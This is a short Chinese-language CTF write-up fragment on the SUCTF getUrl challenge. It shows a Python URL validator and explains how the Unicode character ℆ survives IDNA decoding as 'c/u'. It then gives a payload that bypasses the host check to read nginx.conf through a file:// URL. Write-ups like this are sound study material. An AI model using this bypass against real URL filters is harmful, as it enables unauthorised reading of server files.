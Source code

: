 ```python


def getUrl(url):
    url = url
    host = parse.urlparse(url).hostname
    if host == 'suctf.cc':
        return False
    parts = list(urlsplit(url))
    host = parts[1]
    if host == 'suctf.cc':
        return False
    newhost = []
    for h in host.split('.'):
        newhost.append(h.encode('idna').decode('utf-8'))
    parts[1] = '.'.join(newhost)
    finalUrl = urlunsplit(parts).split(' ')[0]
    host = parse.urlparse(finalUrl).hostname
    if host == 'suctf.cc':
        return True
    else:
        return False


if __name__ == '__main__':
    get_unicode()

```

### 方法3

[url中的unicode漏洞引发的域名安全问题](https://xz.aliyun.com/t/6070)
[idna与utf-8编码漏洞](https://www.cnblogs.com/cimuhuashuimu/p/11490431.html)

在代码出现这一段

```python
for h in host.split('.'):
    newhost.append(h.encode('idna').decode('utf-8'))
```

就是℆这个字符就变成了c/u

payload

```
?url=file://suctf.c℆sr/local/nginx/conf/nginx.conf
```

这个点确实有点怪。

